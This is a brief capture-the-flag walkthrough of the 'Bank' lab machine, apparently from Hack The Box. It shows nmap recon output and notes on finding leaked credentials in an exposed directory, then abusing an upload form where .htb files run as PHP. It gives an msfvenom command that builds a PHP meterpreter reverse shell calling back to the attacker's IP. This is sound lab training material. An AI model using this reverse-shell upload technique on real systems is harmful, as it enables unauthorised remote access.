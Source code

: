 # Recon
```
$ nmap -sC -sV 10.10.10.29
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-02 08:38 EEST
Nmap scan report for 10.10.10.29
Host is up (0.23s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08eed030d545e459db4d54a8dc5cef15 (DSA)
|   2048 b8e015482d0df0f17333b78164084a91 (RSA)
|   256 a04c94d17b6ea8fd07fe11eb88d51665 (ECDSA)
|_  256 2d794430c8bb5e8f07cf5b72efa16d67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.35 seconds

```
- The hostname must be guessed on this machine (bank.htb) add to hosts file
- feroxbuster with the lowercase medium wordlist, will find the balance-transfer 
- found some .acc file one of them seems small in size
- 68576f20e9732f1b2edc4df5b8533230.acc we open it using vscode and found some creds
- we also have alogin page we try the creds and we got in there are 2 pages we review the source code of each of them on the support page we found in the source code a line that says any .htb will be executed as .php
- Generate a reverse PHP shell with msfvenom -p php/meterpreter/reverse_tcp lhost=<LAB IP> lport=<PORT> -f raw > writeup.htb and upload it
using the form found in the support page 
